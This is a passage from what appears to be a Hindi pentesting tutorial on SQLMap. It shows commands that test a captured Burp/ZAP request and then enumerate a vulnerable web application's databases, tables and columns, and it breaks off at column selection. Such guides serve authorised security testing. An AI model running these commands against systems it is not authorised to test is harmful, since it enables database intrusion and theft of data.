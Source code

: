 ## बर्प / जैप कैप्चर से

अनुरोध को कैप्चर करें और एक req.txt फ़ाइल बनाएं
```bash
sqlmap -r req.txt --current-user
```
## GET अनुरोध इंजेक्शन

### SQLMap

SQLMap एक शक्तिशाली और लोकप्रिय टूल है जिसका उपयोग SQL इंजेक्शन टेस्टिंग के लिए किया जाता है। यह टूल आपको वेब ऐप्लिकेशन में SQL इंजेक्शन की खोज करने और उसे एक्सप्लोइट करने में मदद करता है।

### इंजेक्शन के लिए अनुरोध पैरामीटर्स का चयन करें

SQL इंजेक्शन के लिए अनुरोध पैरामीटर्स का चयन करने के लिए, आपको वेब ऐप्लिकेशन के URL में इंजेक्शन करने के लिए उपयोग होने वाले पैरामीटर को खोजना होगा। आप इसे ब्राउज़र के नेटवर्क टैब में देख सकते हैं या वेब ऐप्लिकेशन के स्रोत कोड में ढूंढ सकते हैं।

### इंजेक्शन के लिए SQLMap का उपयोग करें

इंजेक्शन के लिए SQLMap का उपयोग करने के लिए, आपको निम्नलिखित कमांड को चलाना होगा:

```bash
sqlmap -u "यूआरएल" -p "पैरामीटर" --dbs
```

यह कमांड SQLMap को वेब ऐप्लिकेशन के यूआरएल और पैरामीटर के साथ शुरू करेगी और डेटाबेसों की सूची प्रदर्शित करेगी।

### डेटाबेस का चयन करें

डेटाबेस का चयन करने के लिए, आपको निम्नलिखित कमांड को चलाना होगा:

```bash
sqlmap -u "यूआरएल" -p "पैरामीटर" -D "डेटाबेस का नाम" --tables
```

यह कमांड SQLMap को वेब ऐप्लिकेशन के यूआरएल, पैरामीटर और डेटाबेस के साथ शुरू करेगी और टेबलों की सूची प्रदर्शित करेगी।

### टेबल का चयन करें

टेबल का चयन करने के लिए, आपको निम्नलिखित कमांड को चलाना होगा:

```bash
sqlmap -u "यूआरएल" -p "पैरामीटर" -D "डेटाबेस का नाम" -T "टेबल का नाम" --columns
```

यह कमांड SQLMap को वेब ऐप्लिकेशन के यूआरएल, पैरामीटर, डेटाबेस और टेबल के साथ शुरू करेगी और कॉलमों की सूची प्रदर्शित करेगी।

### कॉलम का चयन करें

कॉलम का चयन करने के लिए, आपको निम्नलिखित कमांड को चलाना होगा:
